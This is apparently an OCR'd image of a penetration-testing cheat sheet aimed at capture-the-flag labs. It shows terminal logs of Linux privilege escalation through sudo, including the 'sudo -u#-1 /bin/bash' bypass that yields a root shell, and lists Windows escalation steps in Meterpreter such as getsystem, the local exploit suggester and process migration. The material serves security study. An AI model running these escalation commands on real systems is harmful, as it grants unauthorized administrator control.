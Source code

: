 ```
> $ sudo -l
[sudo] password for username: 
Matching Defaults entries for username on Victim:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
  User username may run the following commands on Victim:
    (ALL : ALL) ALL
> $ cat /root/root.txt
cat: /root/root.txt: Permission denied  - Does not work
> $ sudo cat /root/root.txt  - Work
```

```
user@host:~$ sudo -l
sudo -l
Matching Defaults entries for user on host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on host:
    (ALL, !root) /bin/bash

user@host:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password

Sorry, try again.
Password: <Enter Password>

root@host:/home/user# id
id
uid=0(root) gid=1001(user) groups=1001(user)

```


#### Gain More Privilige on windows system
- In meterpreter shell try `getsystem`
- In meterpreter shell try `background` and then follow rest of commands.
- search suggester
```
> use post/multi/recon/local_exploit_suggestor
show options
set session 1
run
```
- If worked fine, else Try follow rest of commands.
- Use this link: [FuzzySec Win Priv Exec](https://www.fuzzysecurity.com/tutorials/16.html)
- Use this method: [Sherlock](https://github.com/rasta-mouse/Sherlock)
- If current process doesnt own Privs, use `migrate <PID>` to get more Priviliges in Meterpretor.

